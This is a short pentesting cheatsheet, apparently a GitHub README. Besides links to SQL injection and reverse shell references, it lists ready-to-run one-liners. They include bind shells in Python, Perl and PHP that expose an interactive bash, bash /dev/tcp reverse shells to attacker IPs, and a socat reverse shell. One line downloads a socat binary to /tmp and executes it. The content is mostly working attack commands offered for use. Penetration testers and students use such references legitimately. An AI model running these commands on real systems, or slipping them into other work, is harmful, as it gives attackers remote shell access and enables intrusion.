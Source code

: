 # Cheatsheet
Command cheatsheet for Pentesting

## GENERAL:

	https://github.com/Kitsun3Sec/Pentest-Cheat-Sheets#lfi
	
---------------------------------------------------------------------------------------------------
## SQL INJECTION:

	https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------------------------------------------------------------
## BIND SHELL:

	PYTHON:
		python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('172.20.1.12',80));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"

		python3 -c 'import socket as a; s = a.socket(); s.bind(("172.16.1.245",10101)); s.listen(1); (r,z) = s.accept(); exec(r.recv(999))'


	PERL:
		perl -e 'use Socket;$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'

	PHP:
		php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",2222);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}'

---------------------------------------------------------------------------------------------------

## REVERSE SHELL:

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

	BASH DEV/TCP:

		bash -i >& /dev/tcp/172.70.1.39/4040 0>&1

		0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

	SOCAT:

		user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
		user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

		user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

